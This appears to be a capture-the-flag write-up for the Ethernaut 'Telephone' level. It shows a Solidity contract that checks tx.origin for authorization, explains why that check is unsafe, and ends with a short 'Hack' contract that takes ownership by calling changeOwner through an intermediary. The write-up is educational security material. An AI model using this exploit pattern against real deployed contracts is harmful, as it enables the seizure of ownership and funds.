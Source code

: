 ### TASK

Claim ownership of the contract below to complete this level.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

### Vulnerabilities $ Recommendation:

1. One should never use tx.orign for authorization/authentication because it's vulnerable to phishing attack. it is vulnerable because it can be easily spoofed by a malicious user, leading to security vulnerabilities. This can allow an attacker to execute code as if they were a trusted user, potentially leading to unauthorized access to sensitive information or funds.

```solidity
function changeOwner(address _owner) public {
  if (tx.origin != msg.sender) {
    owner = _owner;
  }
}
```

This function wants the tx.origin only to call the function, but shouldn't call it directly(i.e as msg.sender) for the function to pass.
<br/>
<b>"tx.origin" </b> will always return the address that have created/originates a transaction <br/>

<b>"msg.sender"</b> will return the address who made the last external call. Who sends or current account that invokes a function <br/>

Here, the "tx.origin" check in the "changeOwner" function is not a proper security measure as it can be bypassed by malicious contracts.
It's recommended to avoid using tx.origin in smart contract development and instead use a more secure alternative, such as msg.sender.

2. Use the "require" statement to ensure that the new owner is not the same as the existing owner, before changing the owner.

#### Attack Telephone Contract

```solidity
contract Hack {
  function transferTelephoneOwnership(
    Telephone _instanceAddress,
    address _newOwner
  ) public {
    Telephone tel = Telephone(_instanceAddress);
    tel.changeOwner(_newOwner);
  }
}
```

[Link to Exploit Repo](https://github.com/Sayrarh/Ethernaut-Challenge-with-Foundry/blob/master/test/Telephone.t.sol)
